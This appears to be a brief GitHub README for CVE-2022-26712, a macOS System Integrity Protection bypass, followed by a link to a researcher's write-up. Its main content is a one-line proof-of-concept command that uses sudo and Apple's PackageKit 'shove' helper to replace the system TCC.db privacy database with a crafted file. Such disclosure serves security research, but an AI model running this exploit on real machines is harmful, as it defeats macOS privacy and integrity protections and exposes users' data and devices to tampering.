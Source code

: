 # CVE-2022-26712

POC in one line:

`sudo /System/Library/PrivateFrameworks/PackageKit.framework/Versions/A/Resources/shove -X /tmp/crafted.db /Library/Application\ Support/com.apple.TCC/TCC.db`

Details: https://jhftss.github.io/CVE-2022-26712-The-POC-For-SIP-Bypass-Is-Even-Tweetable/

